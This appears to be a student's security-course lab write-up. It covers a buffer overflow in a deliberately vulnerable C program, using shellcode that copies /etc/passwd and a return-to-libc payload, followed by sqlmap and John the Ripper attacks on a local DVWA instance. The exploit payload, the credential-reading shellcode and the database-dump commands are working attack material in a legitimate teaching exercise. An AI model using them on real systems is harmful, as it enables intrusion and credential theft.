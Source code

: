 # Lab#1, 22110091, Nguyen Tuan Vu, INSE33030E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 

- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.



- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)

For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy

![task1.01](./Pictures/Task1/1.png)


Then i will compile C asm program and C program to executable code 

![task1.02](./Pictures/Task1/2.png)

I will use an older bash and turn off randomly given stack value.

![task1.03](./Pictures/Task1/3.png)

The pwd of the copy_file `/home/seed/seclabs/LabOnClass/Task1`

Create a global environment varibale using `/home/seed/seclabs/LabOnClass/Task1/copy_file`

![task1.04](./Pictures/Task1/4.png)


The stack frame of main function

![task1.stack](./Pictures/Task1/stack.jpg)

I will find the address of system and exit and that string of varibale 

![task1.06](./Pictures/Task1/6.png)

Address value of system: `0xf7e50db0` will be inserted with format \xb0\x0d\xe5\xf7

Address value of exit: `0xf7e449e0` will be inserted with format \xe0\x49\xe4\f7

Address value of the string of env:  `0xffffdf2a` will be inserted with format  `\x2a\xdf\xff\xff`

So the command will be

``` 
    r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x2a\xdf\xff\xff')")
```

output screenshot (optional)

Before 

![task1.before](./Pictures/Task1/before.png)

Execute Code

![task1.execute](./Pictures/Task1/executecode.png)

After

![task1.after](./Pictures/Task1/after.png)

**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)

![task2.login](./Pictures/Task2/running.png)

- Make sure you can login with default user

So the userdefault will be
username: admin
password: password

![task2.login](./Pictures/Task2/login.png)

- Install sqlmap

Because my virtual machine cannot install sqlmap, i will clone the github and user the sqlmap.py from the author

![task2.sqlmap](./Pictures/Task2/sqlmapinstall.png)


- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

So for this lab, we will turn the dvwa security to low 

![task2.setlow](./Pictures/Task2/setlow.png)

Cookie of the website

![task2.cookie](./Pictures/Task2/cookie.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

The command line for getting database is 
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" --dbs
```

![task2.commandan1](./Pictures/Task2/commandan1.png)

The reuslts

![task2.resultan1](./Pictures/Task2/resultan1.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

Get tables information
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" -D dvwa --tables
```
![task2.commandan2tables](./Pictures/Task2/commandan2tables.png)

Reults

![task2.resultan2table](./Pictures/Task2/resultan2table.png)

Get users information
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" -D dvwa -T users --dump

```
![task2.commandan2users](./Pictures/Task2/commandan2tables.png)

Results
![task2.resultan2users](./Pictures/Task2/resultan2users.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

So i will create a hashes.txt file to store username and password

![task2.hashescreation](./Pictures/Task2/hashescreation.png)

I have install john the before

![task2.johninstall](./Pictures/Task2/johninstall.png)

We will use the command below to solve the hashes

```
john hashes.txt

```
But my jack the cripper took to long, so i have to use another application to crack them. The result

![task2.hashessolve](./Pictures/Task2/hashessolved.png)
